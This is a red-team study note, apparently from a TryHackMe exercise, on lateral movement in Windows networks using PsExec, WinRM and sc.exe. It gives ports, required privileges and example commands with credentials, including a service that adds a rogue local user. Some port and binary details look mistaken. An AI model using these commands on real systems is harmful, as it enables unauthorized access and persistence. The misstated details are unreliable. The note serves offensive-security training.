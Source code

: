 # Lateral Movement & Pivoting

Lateral movement = group of techniques used by attackers to move around a network.

Following initial access to a machine of a network, moving is essential for many reasons, such as reaching the goal during a red team operation, bypassing network restrictions, establishing additional points of entry to the network, avoiding detection, etc.

Lateral movement is part of a cycle. During this cycle, the available credentials are used to perform lateral movement, thus obtaining access to new machines where we can escalate privileges and get additional credentials. With new credentials, the cycle continues.

## 1. Spawning Processes Remotely

### 1.1. PSexec

* Ports: 445/TCP (SMB)
* Required Group Membership: Administrators

How it works:

1. Connect to `Admin$` share and upload a service binary. Psexec uses `psexecvc.exe` as the name
2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`
3. Create some named pipes to handle stdin/stdout/stderr

```bash
# run psexec from the attacking machine with the command:
$ psexec.exe MACHINE:IP -u Administrator -p Password1 -i cmd.exe
```

### 1.2. WinRM

* Ports: 5985/TCP (WinRM HTTP) or 5586/TCP (WinRM HTTPS)
* Required Group Memberships: Remote Management Users

```bash
# Connect to a remote Powershell session from the command line:
$ winrs.exe -u:Administrator -p:Password1 -r:target cmd
```

### 1.3. sc

* Ports:
	* 135/TCP, 49152-65535/TCP (DCE/RPC)
	* 445/TCP (RPC over SMB Named Pipes)
	* 139/TCP (RPC over SMB Named Pipes)
* Required Group Memberships: Administrators

```powershell
# create and start a service named "THMservice" using the commands:
> sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
> sc.exe \\TARGET start THMservice
# When this service is started, it will create a new local user on the system

# To stop and delete the service, use the commands:
> sc.exe \\TARGET stop THMservice
> sc.exe \\TARGET delete THMservice
```
